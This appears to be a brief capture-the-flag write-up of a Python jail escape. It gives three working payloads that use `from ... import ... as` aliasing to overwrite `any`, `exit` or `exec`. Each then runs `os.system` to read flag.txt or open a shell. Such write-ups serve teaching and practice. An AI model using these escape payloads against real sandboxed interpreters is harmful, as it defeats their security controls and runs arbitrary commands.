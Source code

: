Couple of fun exploits here, based around the idea that `from x import y as z` will overwrite the variable `z` with the value `y`.

Overwriting the check for non-letter chars:
```py
from builtins import all as any
from os import system; system("cat flag.txt")
```

Overwriting the exit:
```py
from builtins import int as exit
from os import system; system("cat flag.txt")
```
Likely many functions work instead of int - anything that takes one number argument and doesn't error.

Overwriting exec:
```py
from os import system as exec
sh
cat flag.txt
```